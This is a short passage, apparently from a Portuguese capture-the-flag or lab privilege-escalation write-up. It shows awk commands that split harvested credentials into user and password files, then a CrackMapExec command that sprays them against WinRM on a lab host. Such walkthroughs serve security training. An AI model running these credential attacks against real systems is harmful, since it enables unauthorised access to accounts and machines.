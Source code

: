     ![Bildschirmfoto 2024-03-05 um 22.13.16.png](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Bildschirmfoto_2024-03-05_um_22.13.16.png)
    
    Agora temos combinações de credenciais para usar com o CrackMapExec. Salve os dados em um arquivo chamado passwd e analise os dados com o awk.
    
    `cat passwd  | awk '{ print $1 }' > users
    cat passwd  | awk '{ print $3 }' > passwords
    cme winrm 10.10.10.203 -u users -p passwords --no-bruteforce`
    